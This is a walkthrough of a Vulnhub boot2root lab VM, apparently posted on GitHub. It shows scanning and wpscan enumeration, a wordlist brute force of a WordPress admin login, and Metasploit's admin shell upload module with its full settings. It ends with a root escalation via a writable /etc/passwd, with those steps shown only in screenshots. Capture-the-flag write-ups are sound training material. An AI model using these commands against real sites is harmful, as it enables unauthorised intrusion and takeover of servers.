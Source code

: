 |---|---|
|:---|:----|
| Category: |	Small boot2root VM |
|Platform: |	Vulnhub |
|Vulnerability: | wordpress hacking |
|End Goal: |	Get root |
|Tool: | nmap, nikto, wpscan, metasploit  |

## Pennetration Methodologie
- Scan the target
  - Find target's IP
  - Nmap scan
- Enumeration
  - Nikto scan
  - wpscan
- Exploit
  - Wordpress Exploit
  - Privilege escalation
  - Get root
## Walkthrough
### Scanning
Firstly I find the target’s IP by using **netdiscover** tool, we can easily find ip of the victim machine
```
┌──(root㉿kali)-[/home/kali]
└─# netdiscover -i eth0 -r 192.168.44.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts                                                               17 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 1020                                                           
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.44.2    00:50:56:f2:22:8b      6     360  VMware, Inc.                                                                    
 192.168.44.1    00:50:56:c0:00:08      1      60  VMware, Inc.                                                                    
 192.168.44.130  00:0c:29:0e:97:6e      8     480  VMware, Inc.                                                                    
 192.168.44.254  00:50:56:e3:25:b0      2     120  VMware, Inc.
```
Target: **192.168.44.130** 
- Let's continue with **Nmap** scan.

```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -Pn -T4  192.168.44.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 17:24 EDT
Nmap scan report for 192.168.44.130
Host is up (0.00088s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:0E:97:6E (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
```
From this we can see the following ports and services:
- 21/tcp open  ftp     ProFTPD 1.3.3c
- 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
- 80/tcp open  http    Apache httpd 2.4.18
Check http servive

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/26e3bb4b-1690-4ca9-8e12-d8085bc0bbea)

Nothing here. Scan Web with nikto

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/547d2d58-5288-4b85-95ea-94ab2e84627a)

We find a interestin folder is **secret**. When check in URL, I find wordpress login page

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/bc174807-5783-45b0-b288-fa31ccc2dce2)

### Enumeration

The next step is to enumerate any potential users and vulnerabilities in the site by using wpscan:

```
wpscan --url http://192.168.44.130/secret -e u

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

I find a user that is **admin**. Let's continue to bruteforce the password of this user by ussing wpscan.

```
wpscan --url http://vtcsec/secret/ -U admin -P  /usr/share/wordlists/dirb/common.txt

```
I find the password for admin that is admin

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/950cc8d0-d279-491c-81b8-f3a8ca5aff7d)

Log in with this credential

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/990c1ffb-637d-4f7c-9f92-e7a1876699fd)


### Exploit
- Upload php reverse shell into wordpress page. Metasploit can be used to generate a plugin which will automationally upload a payload and give us shell. Start metasploit and set options that are necessary.

```
msf6 > search wp admin shell
msf6 > use 3
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD admin
PASSWORD => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOST 192.168.44.130
RHOST => 192.168.44.130
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /secret
TARGETURI => /secret
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit
```

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/4810e633-4fa2-4ee1-9e7c-5bf4d8e5b4ed)

The exploit should executed successfully and open a meterpreter session. Running a getuid command from this session (or id from a shell) shows we currently have access as the user: www-data. Therefore, some additional work is required to obtain root access.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/c3e57682-80ab-42a8-b502-329d6acd1b83)

### Privilege escalation
To check for any potential misconfigurations that could be lead to privilege escalatio, I use **unix-privesc-check** to scan. First upload **unix-privesc-check** to remote machice.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/18b15cf9-35af-4934-bfb9-06f030b56c0e)

Set excure permision for unin-privesc_check and run script.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/06bc75c5-77c1-434d-9665-7244afa11e65)

From the result, we can edit file /etc/passwd. Download /etc/passwd to local macline.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/12f6648b-7899-465a-83f7-2c484ca9c4ee)

Then, from a local terminal, we can use openssl to generate a new hashed password:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/efd82140-dbb5-4e0d-b797-a72d57a633c5)

Finally, we can edit the passwd file using vim and replace the x value for the root user with the hashed password from the above command:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/16144723-c017-4abd-9943-7e2f58409fcd)

The modified passwd file can then be uploaded to the target via the meterpreter session:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/aa86b3a8-0a87-4e76-ac58-dccea620215e)

Using the the shell command in meterpreter this can then be tranformed into an interactive bash shell via Python:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/5d530681-ea87-4d61-b955-d9f61e7f4b97)

Finally, we can su to the root user using the new password generated above:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/40f1c099-6930-4d7d-96c8-d7214c5d5de2)

Checking information of current user:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/8802fb73-fc59-4fff-b6bb-c78afa10db90)

So we get root of this machine.

